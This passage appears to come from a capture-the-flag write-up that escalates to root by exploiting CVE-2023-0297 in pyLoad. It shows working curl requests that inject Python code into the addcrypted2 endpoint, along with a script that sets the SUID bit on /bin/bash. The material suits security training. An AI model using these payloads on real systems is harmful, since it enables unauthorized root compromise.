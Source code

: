 Searching for exploits for Cheroot version 8.6.0 and pyLoad found [CVE-2023-0297](https://attackerkb.com/topics/4G0gkUrtoR/cve-2023-0297) and the corresponding [disclosure](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad).

> pyLoad versions prior to 0.5.0b3.dev31 are vulnerable to Python code injection due to the pyimport functionality exposed through the js2py library. An unauthenticated attacker can issue a crafted POST request to the flash/addcrypted2 endpoint to leverage this for code execution. pyLoad by default runs two services, the primary of which is on port 8000 and can not be used by external hosts. A secondary “Click ‘N’ Load” service runs on port 9666 and can be used remotely without authentication.

When testing this particular instance of Cheroot, it returns a 500 with a response, `Could not decrypt key`, meaning its vulnerable. Additionally, it created the said file owned by root, which means I can execute commands as root by exploiting CVE-2023-0297.

```bash
(remote) sau@pc:/home/sau$ curl -i -s -k -X POST \
> --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd_abraxas\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
> http://127.0.0.1:8000/flash/addcrypted2
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sun, 10 Sep 2023 20:11:03 GMT
Server: Cheroot/8.6.0

Could not decrypt key

(remote) sau@pc:/home/sau$ ls -la /tmp/pwnd_abraxas
-rw-r--r-- 1 root root 0 Sep 10 20:11 /tmp/pwnd_abraxas
```

Created a bash script which set the SUID bit on `/bin/bash`.

```bash
(remote) sau@pc:/home/sau$ echo 'chmod 6777 /bin/bash' > /tmp/escalate.sh
(remote) sau@pc:/home/sau$ curl -i -s -k -X POST \
> --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/escalate.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
> http://127.0.0.1:8000/flash/addcrypted2
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sun, 10 Sep 2023 20:11:03 GMT
Server: Cheroot/8.6.0

Could not decrypt key
```
